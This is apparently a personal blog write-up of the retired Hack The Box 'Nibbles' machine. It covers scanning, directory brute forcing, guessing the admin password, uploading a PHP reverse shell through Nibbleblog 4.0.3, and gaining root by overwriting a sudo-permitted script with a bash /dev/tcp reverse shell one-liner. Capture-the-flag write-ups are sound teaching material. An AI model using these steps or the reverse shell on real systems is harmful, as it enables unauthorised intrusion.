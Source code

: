 ```yaml
---
title: "HTB: Nibbles Writeup"
date: 2025-08-20 08:00:00 +0000
categories: [CTF, HTB]
tags: [ctf, htb, easy, enumeration, privilege-escalation, web, linux]
author: "Saad Azil"
pin: false
---
```


![Nibbles Box](../assets/images/nibbles/NIBBLES.png)

**OS:** Linux  
**Difficulty:** Easy  
**Machine IP:** 10.10.10.75

Nibbles is a retired box on Hack The Box that provides a great introduction to common enumeration techniques, web application exploitation, and privilege escalation through file misconfigurations.

---

## Enumeration

The first step is to scan the target machine with `nmap` to identify open ports and services.

```bash
nmap -sV -sC -oN nmap_scan 10.10.10.75
```

![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

The scan reveals two open ports:
- **Port 22:** SSH
- **Port 80:** HTTP

Before exploring the web server, I added the machine's IP to my `/etc/hosts` file to access it by its domain name, `nibbles.htb`.

![Domain Name](/assets/images/nibbles/domain_name.png)

Navigating to `http://nibbles.htb` in a browser initially shows a blank page.
![Source Page](/assets/images/nibbles/web_view.png)

However, viewing the page's source code reveals a hidden directory: `/nibbleblog/`.
![Source Page](/assets/images/nibbles/source_page.png)

This directory leads to a blog powered by Nibbleblog.

![Blog Page](/assets/images/nibbles/blog_page.png)

There was nothing useful in this blog, so i decided to do directory brute forcing using `ffuf` and the `common.txt` word list:

```bash
ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
![Dir Enum](/assets/images/nibbles/dir_enum.png)

and we got some interesting hidden files and directories.
![Dir Enum Result](/assets/images/nibbles/dir_enum_result.png)

so i thought to begin with the `README` file, The file reveals the Nibbleblog version: `v4.0.3`.

![Readme](/assets/images/nibbles/readme.png)

A quick search for this version reveals a critical vulnerability: **Arbitrary File Upload**. To exploit this, we need to gain access to the admin panel, so i searched online for the default credentials but nothing there, so i came back to the website and i did some enumeration on the directories we got from our previous dir brute forcing, and we got the username of the `admin.php` on the `content` directory.
`content --> private --> users.xml`
![Username](/assets/images/nibbles/username.png)

I didn’t find anything about the password , so i thought to try manually to see if the admin panel may be has weak credentials , and after some guesses i ended up with :
- **Username:** `admin`
- **Password:** `nibbles`

i actually got lucky :)

## Gaining a Foothold

With admin access, I could now exploit the file upload vulnerability. The goal is to upload a reverse shell. I used the pentestmonkey PHP reverse shell script.

1.  **Login** to the admin panel at `http://nibbles.htb/nibbleblog/admin.php`.
2.  Navigate to **Plugins** → **My Image**.
3.  **Upload** the PHP reverse shell.

![Reverse Shell Upload](/assets/images/nibbles/reverse_shell.png)
![Reverse Shell Upload](/assets/images/nibbles/uploaded_image.png)

Once the shell is uploaded, set up a Netcat listener on your local machine:

```bash
nc -lvnp 6666
```

Then, access the uploaded shell at `http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php` to trigger the connection.

![Get Shell](/assets/images/nibbles/get_shell.png)

I upgraded the shell for better stability:

```bash
script /dev/null -c bash
```

![Shell Upgrade](/assets/images/nibbles/shell_upgrade.png)

Now, as the `nibbler` user, I can grab the user flag from the home directory.

![First Flag](/assets/images/nibbles/first_flag.png)

---

## Privilege Escalation

To escalate privileges, I checked for `sudo` permissions:

```bash
sudo -l
```

![sudo](/assets/images/nibbles/sudo-l.png)

The output shows that the `nibbler` user can run `/home/nibbler/personal/stuff/monitor.sh` as `root` without a password.

I found a `personal.zip` file in the user's home directory, so to get the `monitor.sh` script we need to unzip the `personal.zip` file first.

![Unzip The File](/assets/images/nibbles/the_zip_file.png)

Since I have write permissions on the script, I can overwrite it with a payload to get a root shell. I echoed a new reverse shell command into the script:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![overwrote](/assets/images/nibbles/overrideFile.png)

I started another Netcat listener on port `6666` and executed the script with `sudo`:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![run the reverse shell](/assets/images/nibbles/run_the_reverse_shell.png)

This provides a root shell.

![get the root shell](/assets/images/nibbles/get_root_shell.png)

Finally, I could read the root flag.

![root flag](/assets/images/nibbles/root_flag.png)

And we are done :)
